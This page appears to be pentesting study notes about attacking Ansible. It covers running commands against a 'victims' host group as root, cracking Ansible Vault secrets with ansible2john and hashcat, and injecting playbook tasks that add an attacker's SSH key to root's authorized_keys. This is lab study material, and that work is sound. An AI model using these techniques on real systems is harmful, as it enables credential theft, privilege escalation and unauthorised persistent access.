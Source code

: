 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# Ansible
#### Commands
Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <div style="color:red">/etc/ansible/hosts</div>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
&nbsp;
```shell
ansible victims -a "whoami"
```
&nbsp;
This will run _whoami_ on all members of the Ansible group. To run it as root <div style="color:red">ansible victims -a "whoami" --become</div> or specify the user <div style="color:red">ansible victims -a "whoami" --become user2</div>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <div style="color:red">/opt/playbooks</div> to see if there's any info leakage.
&nbsp;
I.E.
```YAML
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```
&nbsp;
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
&nbsp;
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```
&nbsp;
Copy the hash starting with "$ANSIBLE_VAULT......." and use <div style="color:red">ansible2john</div> to convert it in a crackable way to then:
&nbsp;
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```
&nbsp;
to then decrypt the vault like:
&nbsp;
```shell
cat pw.txt | ansible-vault decrypt
```
&nbsp;
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
&nbsp;
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
&nbsp;
Also, some modules from Ansible might leak data in <div style="color:red">/var/log/syslog</div> (I.E. shell module)
